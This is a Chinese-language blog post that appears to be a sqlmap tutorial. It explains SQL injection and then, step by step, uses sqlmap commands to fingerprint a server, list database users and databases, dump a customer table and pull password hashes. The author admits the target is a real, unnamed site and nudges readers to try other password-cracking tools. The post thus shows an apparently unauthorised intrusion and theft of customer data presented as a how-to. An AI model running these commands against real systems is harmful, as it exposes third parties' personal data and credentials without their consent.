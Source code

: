 ```yaml
---
title: sqlmap-基于sql注入的数据猜解
date: 2016-03-17 10:47:52
tags: [sqlmap,黑客]
categories: twist.zheng
---
```


### 引言
[sqlmap](https://github.com/sqlmapproject/sqlmap)是一款基于python语言的自动化检测web项目是否有sql注入的测试工具，不过这也是很多黑客的必备工具之一，今天我们就用sqlmap，向大家演示一次完整的数据库入侵过程。

### 关于sql注入
sql注入只要是写过web项目的人应该都听说过，sql注入是如何产生的呢？我们来举个例子，比如我们写一个sql语句："select * from users where username= xiaoming" 看似这个sql语句没有什么错误，无可厚非，xiaoming是我们要传入的参数，一般由用户输入，不过如果用户输入的是 xiaoming or 1=1 会怎么样呢？

显而易见，现在我们的sql语句就变成了"select * from users where username = xiaoming or 1=1"，由于1=1是恒成立的，这样一来我们岂不是把数据库里面所有的用户都查出来了，这简直是一个巨大的灾难。（一般如果sql语句是通过手动拼凑的话极大可能存在sql注入漏洞）

那么如何来检查一个接口是否存在sql漏洞呢，一般我们检查一个接口是否存在sql注入，会通过在接口url参数后面通过拼凑多余判断来查看是否存在sql注入，比如：?username = xiaoming and 1=1 或者？username=xiaoming' and '1=1 等，如果页面显示正常，则一般不存在sql注入，如果页面崩溃报错或者显示异常则存在sql注入。

### 一次sqlmap猜解过程
这里，我们演示一次具体的使用sqlmap数据猜解的过程。

##### sqlmap -u
`sqlmap -u +url`命令，url即你怀疑可能存在sql注入的接口。
```bash
  sqlmap -u http://*.*.*.*/intro.php?cid=57
```
结果如下：
![img](/images/sqlmap-u.jpg)
这样我们就知道了服务器配置：windows服务器，mysql5.0 apache2.2 php5.3

##### sqlmap -u http://****  --users
`--users` 命令列举出数据库中存在的用户：
结果如下:
![img](/images/sqlmap-users.jpg)
可以看到数据库存在两个用户，一个是root用户，一个是chihumis。
其中`localhost`和`127.0.0.1`表示本机权限，`%`表示具有远程权限（设想一下，我们如果拿到了远程权限的数据库密码会怎么样，我们能不能拿到呢？别急，我们接着往下看）

##### sqlmap -u http://****　--dbs
`--dbs` 列举出数据库中的database.
![img](/images/sqlmap-dbs.jpg)
数据库中database还不少，有62个.

##### sqlmap -u http://**** -D　database --tables
`--tables` 列举出数据库里面的表. `-D`指定某个数据库，如果不指定，将列出所有数据库的表
我们查看一下chihumis(我不知道这个单词是什么意思，但我猜既然能作为用户名的话，也许有特殊含义)这个数据库的表有哪些
```bash
   sqlmap -u http://*** -D chihumis --tables

![img](/images/sqlmap-tables.jpg)
结果已经出来了，这个数据库总共有80张表

##### sqlmap -u http://****  -D database -T table --columns
`--columns` 列举出某张表的数据结构。
我们来试一试第一张表吧
```bash
   sqlmap -u http://*** -D chihumis -T ch_b_customer --columns
```
结果如下
![img](/images/sqlmap-columns.jpg)

##### sqlmap -u http://**** -D database -T table --dump
`--dump` 打印出某张表的数据结构，这个太可怕了。
```bash
   sqlmap -u http://*** -D chihumis -T ch_b_customer --dump
```
表中的数据如图：
![img](/images/sqlmap-dump.jpg)
不好意思，因为是未知名站点的真实数据，这里只好打上码了，相信你们对打码这种事情并不陌生，所以不会介意的^o^
(这期间因为sqlmap检测到加密了的字段，在执行的过程中询问我要不要进行破解！！！)

##### sqlmap -u http://**** --passwords
`--passwords`命令会列出数据可以用户，并列出密码的hash，且尝试破解。
刚刚我们提到，我们是否可以拿到数据库用户的密码呢，`--passwords`命令就是为了这个需求的
```bash
   sqlmap -u http://*** --passwords
```
用户名和用户密码的hash值如下：
![img](/images/sqlmap-password.jpg)
我个人觉得用sqlmap自带的密码破解字典的话，破解概率不是那么高，现在的破解工具那么多，你可以试一试别的方法。

### 最后
最后千万不要拿着sqlmap去做坏事哦，毕竟我们是一个有道德的hacker(原谅我用一个真实的站点来写这篇博客)。

